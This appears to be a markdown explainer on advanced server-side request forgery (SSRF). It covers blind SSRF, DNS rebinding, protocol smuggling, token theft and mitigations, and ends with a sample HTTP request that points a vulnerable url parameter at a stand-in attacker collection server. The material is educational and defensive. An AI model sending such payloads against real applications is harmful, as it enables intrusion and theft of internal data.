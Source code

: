 # SSRF and Beyond - Advanced Exploitation Techniques

## Table of Contents

1. [Introduction](#introduction)
2. [Advanced SSRF Exploitation Techniques](#advanced-ssrf-exploitation-techniques)
3. [SSRF as Part of a Complex Attack Chain](#ssrf-as-part-of-a-complex-attack-chain)
4. [Mitigation Strategies](#mitigation-strategies)
5. [Example: Advanced SSRF Exploitation](#example-advanced-ssrf-exploitation)
6. [References](#references)

---

## 1. Introduction

Server-Side Request Forgery (SSRF) vulnerabilities, when combined with advanced exploitation techniques, can become a potent weapon for attackers. This document delves into sophisticated methods that adversaries may employ to exploit SSRF and explores scenarios where SSRF plays a crucial role in complex attack chains.

## 2. Advanced SSRF Exploitation Techniques

- **Blind SSRF:**
  - Attackers may leverage blind SSRF to make requests without receiving direct responses. This makes detection and mitigation challenging.

- **Time-Based Attacks:**
  - Exploiting time delays in SSRF responses to infer the success or failure of a request.

- **DNS Rebinding:**
  - Attackers manipulate DNS responses to change the IP address associated with a domain after the initial request is made.

- **Protocol Smuggling:**
  - Abusing ambiguities in parsing protocols to smuggle SSRF requests through different communication layers.

- **HTTP Parameter Pollution (HPP):**
  - Exploiting ambiguities in URL parameter handling to manipulate the server into making unintended requests.

## 3. SSRF as Part of a Complex Attack Chain

- **Lateral Movement:**
  - SSRF can be used to access internal resources, enabling lateral movement within a network and escalating the attack.

- **Data Exfiltration:**
  - Combine SSRF with other vulnerabilities to exfiltrate sensitive data from internal systems.

- **Bypassing Network Security Controls:**
  - SSRF may be employed to bypass network security controls, such as firewalls or Intrusion Detection Systems (IDS).

- **Service Token Theft:**
  - Exploiting SSRF to steal service tokens or credentials, enabling unauthorized access to cloud services.

- **Cross-Site Scripting (XSS) Integration:**
  - Incorporating SSRF within a broader attack, such as combining it with XSS for increased impact.

## 4. Mitigation Strategies

- **Outbound Traffic Monitoring:**
  - Implement comprehensive monitoring for outbound traffic to detect unusual patterns indicative of advanced SSRF attacks.

- **Regular Expression Hardening:**
  - Securely configure regular expressions used for input validation to prevent bypasses in SSRF attempts.

- **Protocol Whitelisting:**
  - Whitelist only the necessary protocols to limit the potential attack surface.

- **Rate Limiting and Throttling:**
  - Implement rate limiting and throttling mechanisms to detect and mitigate time-based SSRF attacks.

- **Secure DNS Configuration:**
  - Regularly audit and secure DNS configurations to prevent DNS rebinding attacks.

## 5. Example: Advanced SSRF Exploitation

Consider an application with a blind SSRF vulnerability. An attacker sends the following payload to infer the internal network's existence:

```http
GET /api/endpoint?url=http://malicious-attacker-server.com/collect-data HTTP/1.1
Host: target-application.com
